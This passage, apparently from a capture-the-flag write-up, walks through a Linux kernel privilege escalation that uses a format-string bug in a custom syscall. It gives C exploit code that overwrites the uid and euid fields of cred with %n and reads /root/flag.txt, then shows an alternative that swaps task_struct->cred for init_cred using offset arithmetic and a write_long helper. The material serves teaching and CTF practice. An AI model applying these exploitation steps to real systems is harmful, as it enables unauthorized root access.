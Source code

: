 ```c
    uint64_t current_cred_addr = task_struct + 0x6b8;
    uint64_t current_cred = arb_read_ptr(current_cred_addr);

    printf("kernel base: %p\n", kbase);
    printf("task_struct: %p\n", task_struct);
    printf("current cred: %p\n", current_cred);

    char *data[] = {"%n%n", 
        current_cred + 1*4, // uid
        current_cred + 5*4  // euid
    };

    syscall(SYSCALL_NO, data);
    system("id; cat /root/flag.txt");
}
```
Unfortunately, we cannot get a shell because our stdin is set to the fifo. I just called `id` to check if the overwrite worked and read the flag.

## Overwrite task_struct->cred to init_cred
If you don't want to overwrite the uids or due to some reason you can only write 8 bytes, you can overwrite current `task_struct->cred` with `init_cred`. `init_cred` is a default `cred` which is used for `init_task`. You can get the address from `vmlinux_elf` and calculate the offset.
```
# readelf -Ws ./vmlinux_elf| grep init_cred
118934: ffffffff8264e400     0 OBJECT  GLOBAL DEFAULT   12 init_cred
```
`0xffffffff8264e400 - 0xffffffff81000000 = 0x164e400`
```c
int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t per_cpu_offset = kbase + 0x14176a0;

    ptr = arb_read_ptr(per_cpu_offset);

    uint64_t task_struct = arb_read_ptr(ptr + 0x16d00);
    uint64_t current_cred_addr = task_struct + 0x6b8;
    uint64_t init_cred = kbase + 0x164e400;

    printf("kernel base: %p\n", kbase);
    printf("task_struct: %p\n", task_struct);
    printf("current cred address: %p\n", current_cred_addr);
    printf("init_cred: %p\n", init_cred);
}
```
I made a function `write_long` for writing it once because if we write it in parts, a check will result in a segfault. The check is done during `kernel_write` to check whether the file has proper permissions; which is done using the `cred`. If we write in parts, `cred` will point to some other place (maybe non-existent) and will result in segfault.
```c
void write_long(uint64_t where, uint64_t what){
    char fmt[0x50];
    uint32_t part1 = what & 0xffffffff, part2 = what >> 32;
    uint16_t part1_lower = part1 & 0xffff, part1_upper = part1 >> 16;
    uint16_t part2_lower = part2 & 0xffff, part2_upper = part2 >> 16;

    sprintf(fmt, "%%%dc%%1$hn%%%dc%%2$hn%%%dc%%3$hn%%%dc%%4$hn", part1_lower, 
    (part1_upper > part1_lower) ? part1_upper - part1_lower : part1_upper - part1_lower + 0x10000,
    (part2_lower > part1_upper) ? part2_lower - part1_upper : part2_lower - part1_upper + 0x10000,
    (part2_upper > part2_lower) ? part2_upper - part2_lower : part2_upper - part2_lower + 0x10000
    );
```